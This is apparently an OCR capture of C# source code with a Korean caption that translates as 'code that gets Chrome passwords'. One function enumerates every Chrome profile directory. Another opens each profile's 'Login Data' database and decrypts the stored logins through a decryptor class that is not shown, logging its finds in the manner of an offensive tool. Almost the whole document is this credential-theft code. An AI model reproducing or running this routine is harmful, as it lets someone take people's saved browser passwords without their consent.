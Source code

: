 
```cs
public static List<string> FindChromeProfiles()
{
    string localAppData = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
    string chromeDirectory = localAppData + @"\Google\Chrome\User Data";
    
    List<string> profileDirectories = new List<string>();

    if (Directory.Exists(chromeDirectory))
    {
        //Add default profile location once existence of chrome directory is confirmed
        profileDirectories.Add(chromeDirectory + "\\Default");
        foreach (string directory in Directory.GetDirectories(chromeDirectory))
        {
            if (directory.Contains("Profile "))
            {
                profileDirectories.Add(directory);

            }
        }
    }

    return profileDirectories;
}
```
크롬 비밀번호 가져오는 코드 

```cs
public static List<BrowserLoginData> GetChromePasswords(string userAccountName)
{
    List<string> chromeProfiles = FindChromeProfiles();

    List<BrowserLoginData> loginDataList = new List<BrowserLoginData>();

    foreach (string chromeProfile in chromeProfiles)
    {
        string loginDataFile = chromeProfile + @"\Login Data";
        if (File.Exists(loginDataFile))
        {
            Console.ForegroundColor = ConsoleColor.Green;
            Console.WriteLine($"[+] Found Chrome credential database for user: \"{userAccountName}\" at: \"{loginDataFile}\"");
            Console.ResetColor();

            ChromeDatabaseDecryptor decryptor = new ChromeDatabaseDecryptor(loginDataFile);

            loginDataList = (loginDataList.Concat(decryptor.ChromeLoginDataList)).ToList();
        }
        else
        {
            Console.ForegroundColor = ConsoleColor.Red;
            Console.WriteLine($"[-] No credential database found in chrome profile {chromeProfile}");
            Console.ResetColor();
        }
    }

    return loginDataList;
}
```

